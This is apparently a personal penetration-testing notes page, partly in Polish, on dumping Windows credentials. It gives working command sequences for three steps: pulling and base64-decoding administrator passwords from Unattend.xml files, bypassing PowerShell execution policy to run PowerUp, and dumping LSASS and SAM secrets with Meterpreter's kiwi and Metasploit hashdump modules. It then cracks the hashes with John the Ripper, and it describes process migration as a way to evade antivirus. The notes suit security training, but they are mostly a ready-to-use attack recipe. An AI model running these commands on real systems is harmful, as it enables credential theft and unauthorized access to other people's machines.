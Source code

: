 # Windows Credential Dumping

## Unattended Windows Setup utility

Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.

This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account’s password.  
If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:

- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Autounattend.xml`

Hasła ukryte w plikach czasem moga być zakodowane Base64

```xml
Szukać sekcji:
<Autologon>
```

```powershell
Powershell.exe
cd .\Desktop\PowerSploit\Privesc\
powershell -ep bypass # PowerShell execution policy bypass
. .\PowerUp.ps1 # Import PowerUp.ps1 script
Invoke-PrivescAudit # Invoke-PrivescAudit function.

# Decoding administrator password using Powershell.
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password

# run a command prompt as an administrator using discover credentials using runas.exe utility
runas.exe /user:administrator cmd
Admin@123
whoami
```

## Dumping Hashes With Mimikatz

![[Tools/mimikatz#Dumping Hashes With Mimikatz]]

### $ msf>kiwi (Mimikatz)
The **SAM (Security Account Manager) database**, is a database file on Windows systems that stores users passwords and can be used to authenticate users both locally and remotely.
```bash
# w sesji meterpretera
pgrep lsass # usługa odpowiedzialna za managing Windows Acces Token
migrate # trzeba zmigrować do procesu x64 (w x86 mimikatz nie będzie działac poprawnie)
load kiwi
creds_all # This will grab all of the credentials in RAM and dispaly them to the screen
lsa_dump_sam #  Extract all the users NTLM hash using Kiwi
lsa_dump_secrets # Find the syskey by dumping the LSA secrets.
```

```bash
# dump hashy maszyny do bazy Metasploit (ocdczytać za pomocą `creds`)

# This module will collect cleartext Single Sign On credentials from the Local Security Authority using the Kiwi (Mimikatz) extension.
post/windows/gather/credentials/sso

# This module will dump the local user accounts from the SAM database using the registry
windows/gather/hashdump

# This will dump local accounts from the SAM Database. If the target host is a Domain Controller, it will dump the Domain Account Database using the proper technique depending on privilege level, OS and role of the host.
windows/gather/smart_hashdump
```


# Dumping & Cracking Hashes

The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.  
SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.

LSASS process  
Why migrate?

- **Stability**: Exploits and Payloads that are providing the session tend to be unstable as compared to the basic process that has been developed for the target and is running on the target. Hence, migrating to those processes can serve to provide a more stable connection.
- **Cloaking**: Antivirus Software or any other Defensive Software tends to scan and look for malicious files that might be running on the machine. Hence, Cloaking or Hiding our malicious process will avoid detection.
- **Compatibility**: It is possible that while exploiting a machine that the payload you used might be designed for the 64-bit Architecture but the session that you have received is an Operating System running an 86-bit Architecture. Migrate can be used to shift the process to the native process and provide compatibility to the session.

```bash
post/windows/gather/hashdump # moduł zapisujący hashe do bazy metasploit
auxiliary/analyze/jtr_crack_fast # JtR
```
```bash
meterpreter>hashdump
# skopiować wyświetlone hashe i zapisać w pliku
# crack hashy za pomocą john lub hashcat

# moduł password cracker to decode Windows based password hashes
use auxiliary/analyze/crack_windows
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
```